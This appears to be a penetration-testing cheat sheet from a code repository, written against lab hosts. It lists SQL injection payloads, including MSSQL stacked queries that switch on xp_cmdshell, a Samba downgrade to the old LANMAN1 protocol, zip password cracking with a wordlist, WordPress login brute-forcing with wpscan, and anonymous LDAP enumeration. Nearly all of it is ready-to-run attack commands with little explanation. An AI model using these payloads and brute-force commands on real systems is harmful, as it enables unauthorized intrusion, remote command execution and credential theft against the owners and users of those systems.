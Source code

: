
## NT_STATUS_CONNECTION_DISCONNECTED
All that you have to do is edit your /etc/samba/smb.conf and add one line to the global section (which tells your system to use the old protocols when negotiating a session):
```c
client min protocol = LANMAN1
```
Save the file, hup the daemon, use your tools.
```c
service smbd restart
```

## sqli
check for __database type__
cheat cheets from pentestmonkey
```c
'
' or 1=1 --'
```
mssql stacked queries
```c
'; WAITFOR DELAY '0:0:5' --' 		

' ; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE --'
```

## crack zip archive
```c
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt account.zip
```

## wpscan 
```c
wpscan --url 10.10.10.1 --password-attack wp-login -P /opt/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
wpscan --url 10.10.10.1/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

## ldap
```py
ldapsearch -x -h 10.10.10.1 -s base namingcontexts			# returns 'dc=<name>,dc=<domain>'
ldapsearch -x -h 10.10.10.1 -b 'dc=<name>,dc=<domain>'
```

## bash scripts
```sh
cat file.txt | while read line; do echo $line; done
```
